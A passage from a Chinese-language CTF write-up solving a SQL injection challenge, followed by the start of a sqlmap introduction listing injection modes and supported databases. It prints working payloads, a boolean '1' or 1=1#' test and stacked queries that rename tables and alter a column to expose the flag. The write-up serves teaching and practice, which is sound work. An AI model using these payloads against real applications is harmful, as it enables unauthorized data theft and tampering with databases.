 查看words表格，发现words表格与最开始的输出信息类似，

![img](https://s2.loli.net/2024/11/24/385ypRUaHivzdW4.png)![img](https://s2.loli.net/2024/11/24/ltiRDLQ6zYscWIJ.png)

发现列名分别为 id 和 data，猜测表words可能为默认查询的表

构造 1' or 1=1#进行布尔注入

发现如下结构

![img](https://s2.loli.net/2024/11/24/y9GqLericTJWlgk.png)

证实默认查询列表为words，用来回显内容

接下来通过更改名称来一波偷梁换柱即可

则可以利用 rename 关键字将 表word改名为words，并将表 1919810931114514改名为 word，这样默认查询的表就变成了原先的 表1919810931114514，

基本格式就是  rename ``更改前的名字`` to `想更改成的名字`

由于注入框的查询是对列id的搜索，此时参考两个表的列名，需要将flag列名改为能够查找的id列（修改包括名称和数据类型）。

过滤中没有alert（对于列进行添加和删除）

我们已经知道了**words是用来回显内容的**，我们把1919810931114514这个表更改名字为words,并增加相应的字段，使之回显原1919810931114514这个表的内容。

```plain
1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#
or
1';rename table `words` to `words1`;rename table `1919810931114514` to `words`;alter table `words` change `flag` `id` varchar(100) ;show columns from words;#
```

此时表格内容已经改变了，

再用万能语句，得到flag

1' or 1=1#

![img](https://s2.loli.net/2024/11/24/dXtHJr7To2AxciE.png)

### sqlmap教程

###  sqlmap简介

sqlmap支持五种不同的注入模式：

- 1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
- 2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
- 3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
- 4、联合查询注入，可以使用union的情况下的注入。
- 5、堆查询注入，可以同时执行多条语句的执行时的注入。

### sqlmap支持的数据库有

MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB
